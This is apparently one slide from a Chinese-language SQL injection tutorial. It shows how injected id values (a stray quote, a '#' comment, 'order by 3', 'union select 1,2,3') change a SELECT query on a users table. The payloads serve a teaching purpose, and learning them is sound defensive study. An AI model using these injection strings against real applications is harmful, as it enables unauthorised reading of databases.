

# SQL注入实战
SQL 注入语句分析

$id="1'";
$sql="SELECT * FROM users WHERE id='1'' LIMIT 0,1";

$id="1' #";
$sql="SELECT * FROM users WHERE id='1' #' LIMIT 0,1";

$id="1' order by 3 %23";
$sql="SELECT * FROM users WHERE id='1' order by 3 %23' LIMIT 0,1";

$id="-1' union select 1,2,3 %23";
$sql="SELECT * FROM users WHERE id='-1' union select 1,2,3 %23' LIMIT 0,1";
8